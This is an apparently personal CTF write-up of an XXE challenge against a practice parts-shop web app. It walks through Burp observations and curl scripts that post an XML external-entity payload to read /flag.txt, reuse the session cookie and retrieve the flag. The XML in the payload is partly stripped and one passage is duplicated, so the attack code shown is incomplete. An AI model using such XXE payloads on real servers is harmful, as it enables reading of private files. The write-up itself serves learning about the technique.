

Oh did I enjoy this one, I rarely get a chance to play with XXE. In all fairness, this is my third CTF, so
I had read about XXEs and heard about payloads, but I did not ever play with them. I'm sure that either
TryHackMe or HackTheBox has a room for these, or perhaps they both, but I have not reached that point.
When going to the page, all we see are three parts and a little green plus bar at the bottom. I went
into Burpsuite and started looking at the pages and learned that they are passing data using XML and
I recall the language of the challenge said it's in /flag.txt. A moment of silence for everyone who
tried this URL, because even I did in hopes that it would be that simple. Anyway, viewing the information
from Burp, we see two endpoints:
parts
blueprint
It seems that blueprint is only used to add and the second one lists the parts. So I tested adding a
part with a javascript tag and I never saw an alert() box, so it's my assumption that they were
filtering out tags, and without a database, we may as well look at another method. I had to use Google
to get a quick read up on how XXEs work, and it seems that, so I just tried adding a part. Going to
the front page shows my new part! And the source showed it's part number six thousand something, but
only the first three parts are shown. I now go to the Firefox browser and open the page and I notice
something, my part is't there! Flipping back to Burp, I see that we have a session so I assume the
added parts involve the session ID. So what now? Well, without a need to authenticate but a need to
make sure we keep within the session, I crafted the following shell to create and store and a part (this
is the execution of my payload):
┌──(trhodes㉿kali)-[~/Downloads/USC]
└─$ sh sub_xxe.sh
+ curl -X POST https://uscybercombine-s4-parts-shop.chals.io/blueprint -c cookies.txt -H Content-Type: text/xml -d
]>
&xxe;
Test Author
/static/img/test.png
Test Description
Redirecting...
Redirecting...
You should be redirected automatically to the target URL: /. If not, click the link.
 NOTE: I use "-c" to save the cookie data. Even without a login, it will save our session ID to the cookie jar
and I can use it going forward. This output resembles my manual addition, but it's at the command line, so we need
to use that session. I attempted to get the "next part" available but that failed (see my execution here,
as before, with a -x so you can see what I ran):
┌──(trhodes㉿kali)-[~/Downloads/USC]
└─$ sh get_xxe.sh
+ curl -X GET https://uscybercombine-s4-parts-shop.chals.io/part/6559 -b cookies.txt -H Content-Type: text/xml
NOTE: I use "-c" to save the cookie data. Even without a login, it will save our session ID to the cookie jar
and I can use it going forward. This output resembles my manual addition, but it's at the command line, so we need
to use that session. I attempted to get the "next part" available but that failed (see my execution here,
as before, with a -x so you can see what I ran):
┌──(trhodes㉿kali)-[~/Downloads/USC]
└─$ sh get_xxe.sh
+ curl -X GET https://uscybercombine-s4-parts-shop.chals.io/part/6559 -b cookies.txt -H Content-Type: text/xml
404 Not Found
Not Found
The requested URL was not found on the server. If you entered the URL manually, please check your spelling and try again.
What did this mean to me? It meant that someone must have added an item since I ran my script, or perhaps
several people added items! There are around 1000 players, it's possible such a race condition existed. To make
this easier, I copied the session from the cookies.txt file and flipped back to Burp. Once the Burp window was
was back in front of me, I just did a refresh in the Burp browser and, in the request, I replaced the session ID
with the one created from my script and clicked forward. Tada, flag:
SIVBGR{fu11y_upgr4d3d}

And done! FYI, here are my default scripts:
┌──(trhodes㉿kali)-[~/Downloads/USC]
└─$ cat sub_xxe.sh get_xxe.sh
set -x
curl -X POST https://uscybercombine-s4-parts-shop.chals.io/blueprint \
-c cookies.txt \
-H "Content-Type: text/xml" \
-d '
]>
&xxe;
Test Author
/static/img/test.png
Test Description
'
set -x
curl -X GET https://uscybercombine-s4-parts-shop.chals.io/part/6559 \
-b cookies.txt \
-H "Content-Type: text/xml"
┌──(trhodes㉿kali)-[~/Downloads/USC]